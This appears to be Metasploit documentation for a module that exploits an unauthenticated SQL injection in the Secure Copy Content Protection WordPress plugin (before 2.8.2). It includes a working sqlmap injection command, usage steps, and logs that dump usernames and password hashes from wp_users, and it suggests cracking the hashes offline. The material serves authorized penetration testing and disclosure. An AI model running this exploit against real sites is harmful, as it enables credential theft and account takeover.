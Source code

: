 ## Vulnerable Application

Secure Copy Content Protection and Content Locking, a WordPress plugin,
prior to 2.8.2 is affected by an unauthenticated SQL injection via the
`sccp_id[]` parameter.

Remote attackers can exploit this vulnerability to dump usernames and password hashes
from the`wp_users` table of the affected WordPress installation. These password hashes
can then be cracked offline using tools such as Hashcat to obtain valid login
credentials for the affected WordPress installation.

A vulnerable version (2.8.1) of the plugin can be downloaded
[here](https://downloads.wordpress.org/plugin/secure-copy-content-protection.2.8.1.zip)

The output from running this module will be somewhat similar to the following `sqlmap` command:

```
sqlmap --dbms=mysql -u "http://1.1.1.1/wp-admin/admin-ajax.php?action=ays_sccp_results_export_file&sccp_id[]=3)*&type=json" --technique T -T wp_users -C user_login,user_pass --dump
```

## Verification Steps

1. Install the plugin, use defaults
2. Start msfconsole
3. Do: `use auxiliary/scanner/http/wp_secure_copy_content_protection_sqli`
4. Do: `set rhosts [ip]`
5. Optionally set `USER_COUNT` to the number of users you want to dump the credentials of.
5. Do: `run`
6. *Verify* that `USER_COUNT` number of users's usernames and password hashes are gathered from the `wp_users` table of the target WordPress installation.
## Options

### ACTION: List Users

This action exploits the unauthenticated SQL injection and lists `USER_COUNT`
users and password hashes from the `wp_users` table of the affected WordPress installation.

### USER_COUNT

If action `List Users` is selected (default), this is the number of users to enumerate the credentials of.
The larger this number, the more time it will take for the module to run.  Defaults to `3`.

## Scenarios

### Secure Copy Content Protection and Content Locking 2.8.1 on Wordpress 5.7.5 on Ubuntu 20.04

```
resource (secure_copy.rb)> use auxiliary/scanner/http/wp_secure_copy_content_protection_sqli
resource (secure_copy.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (secure_copy.rb)> set verbose true
verbose => true
resource (secure_copy.rb)> set limit 1
limit => 1
resource (secure_copy.rb)> run
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking /wp-content/plugins/secure-copy-content-protection/readme.txt
[*] Checking /wp-content/plugins/secure-copy-content-protection/Readme.txt
[*] Checking /wp-content/plugins/secure-copy-content-protection/README.txt
[*] Found version 2.8.1 in the plugin
[+] The target appears to be vulnerable.
[*] Enumerating Usernames and Password Hashes
[*] {SQLi} Executing (select group_concat(dwOr) from (select cast(concat_ws(';',ifnull(user_login,''),ifnull(user_pass,'')) as binary) dwOr from wp_users limit 3) fOXVNQ)
[*] {SQLi} Encoded to (select group_concat(dwOr) from (select cast(concat_ws(0x3b,ifnull(user_login,repeat(0x16,0)),ifnull(user_pass,repeat(0xa1,0))) as binary) dwOr from wp_users limit 3) fOXVNQ)
[*] {SQLi} Time-based injection: expecting output of length 124
[+] Dumped table contents:
wp_users
========

 user_login  user_pass
 ----------  ---------
 admin       $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0
 admin2      $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1
 editor      $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### Secure Copy Content Protection and Content Locking 2.8.1 on WordPress 5.9.1 on Docker
```
msf6 payload(windows/x64/meterpreter/reverse_tcp) > use auxiliary/scanner/http/wp_secure_copy_content_protection_sqli
msf6 auxiliary(scanner/http/wp_secure_copy_content_protection_sqli) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 auxiliary(scanner/http/wp_secure_copy_content_protection_sqli) > set RPORT 8000
RPORT => 8000
msf6 auxiliary(scanner/http/wp_secure_copy_content_protection_sqli) > show options

Module options (auxiliary/scanner/http/wp_secure_copy_content_protection_sqli):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      127.0.0.1        yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metas
                                          ploit
   RPORT       8000             yes       The target port (TCP)
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI   /                yes       The base path to the wordpress application
   THREADS     1                yes       The number of concurrent threads (max one per host)
   USER_COUNT  3                yes       Number of user credentials to enumerate
   VHOST                        no        HTTP server virtual host


Auxiliary action:

   Name        Description
   ----        -----------
   List Users  Queries username, password hash for USER_COUNT users


msf6 auxiliary(scanner/http/wp_secure_copy_content_protection_sqli) > run

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Enumerating Usernames and Password Hashes
[!] Each user will take about 5-10 minutes to enumerate. Be patient.
[+] Dumped table contents:
wp_users
========

 user_login  user_pass
 ----------  ---------
 normal      $P$Bu9/XNK93oyUTKO.zJ9yGZfYAcbZg9.
 testAdmin   $P$BYWtZOfh8yqLCKA877hwBysqGdRtk/.

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/wp_secure_copy_content_protection_sqli) >
```